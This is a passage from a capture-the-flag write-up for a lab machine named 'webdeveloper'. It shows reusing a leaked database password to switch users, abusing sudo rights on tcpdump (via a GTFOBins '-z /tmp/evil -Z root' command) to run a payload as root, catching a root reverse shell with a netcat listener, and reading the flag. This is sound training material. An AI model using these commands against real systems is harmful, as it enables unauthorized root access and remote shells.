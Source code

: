 ```bash
/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
...
```

I tried to re-use the password **MasterOfTheUniverse** to log in as the user webdeveloper.

```bash
www-data@webdeveloper:/var/www/html$ su - webdeveloper
su - webdeveloper
Password: MasterOfTheUniverse

webdeveloper@webdeveloper:~$
```

We can run the tcpdump tool with sudo permissions, a way to get root.

```bash
webdeveloper@webdeveloper:~$ sudo -l
sudo -l
[sudo] password for webdeveloper: MasterOfTheUniverse

Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
webdeveloper@webdeveloper:~$
```

## Privilege Escalation
### Sudo Permissions

We will reuse the payload generated before, set up a netcat listener on port 443, and we execute the following tcpdump command that will execute our payload as user root, this topic was extracted from [GTFOBINS](https://gtfobins.github.io/gtfobins/tcpdump).

```bash
webdeveloper@webdeveloper:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z /tmp/evil -Z root
```

And finally we have a shell with root permissions, and read the flag.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.184] 39914
script -qc /bin/bash /dev/null
root@webdeveloper:/home/webdeveloper#
```

```bash
root@webdeveloper:/home/webdeveloper# cd /root
cd /root
root@webdeveloper:/root# ls 
ls 
flag.txt
root@webdeveloper:/root# cat flag.txt
cat flag.txt
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
root@webdeveloper:/root#
```
